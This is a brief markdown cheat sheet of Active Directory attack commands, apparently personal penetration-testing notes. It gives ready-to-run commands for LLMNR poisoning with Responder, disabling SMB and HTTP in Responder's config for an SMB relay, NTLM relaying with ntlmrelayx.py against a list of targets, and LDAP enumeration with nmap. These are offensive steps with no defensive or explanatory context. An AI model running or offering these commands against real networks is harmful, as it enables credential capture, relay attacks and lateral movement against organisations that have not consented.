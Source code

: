 # ADAttacking

## LLMNR poisioning

```
python3 responder -I tun0 -rdwv
```

Edit responder. 

```
sudo nano /usr/share/responder.conf
```
---
## SMB Relay Attack (Respoonder)

```
python3 responder -I tun0 -rdwv
```

Edit responder. 

```
sudo nano /usr/share/responder.conf
# SMB OFF
# HTTP OFF
```

## NTLMRelay

```
ntlmrelayx.py -tf targets.txt -smb2support
```
---

## LDAP Brute

```
nmap -n -sV --script "ldap* and not brute" -p 389 10.10.0.9 -Pn
```
